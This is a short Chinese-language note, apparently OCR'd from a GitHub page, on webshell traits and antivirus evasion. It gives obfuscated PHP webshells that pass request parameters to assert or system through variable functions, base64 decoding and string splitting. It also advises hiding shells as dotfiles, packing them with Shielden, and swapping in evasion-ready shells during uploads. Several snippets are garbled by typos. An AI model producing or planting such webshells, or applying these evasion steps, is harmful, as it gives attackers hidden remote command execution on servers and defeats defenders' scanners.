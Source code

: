 ## **webshell文件特征**

主要是正常匹配一些敏感函数，和特征代码。

木马文件上传防静态查杀检测，做混淆：

```
<?php
  $a='b';
  $b=$GET['e'];
  $$a(SPOST['x']);
?>
//寻找绕过

<?php
  $a='b';
  $b='assert‘;
  $$a (base64_decode($_POST['x']);
  ?>


//
$XnEGfa = $_GET['Efa5BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX\[0];
($kDxfM->gHht)($XnEGfa);
```

木马文件名隐藏：
.shell.php在Linux中直接看隐藏看不到。

## **免杀方法**

<https://www.sqlsec.com/2020/07/shell.html>

Shielden进行webshell加壳。

弱鸡webshell免杀工具。

可以参考文章：<https://blog.csdn.net/guanjian_ci/article/details/139295929>
php解密：<https://decode.xiaojieapi.com/decode>

^

在一些工具一键上传文件马的时候可以抓包拦截，替换成免杀马。
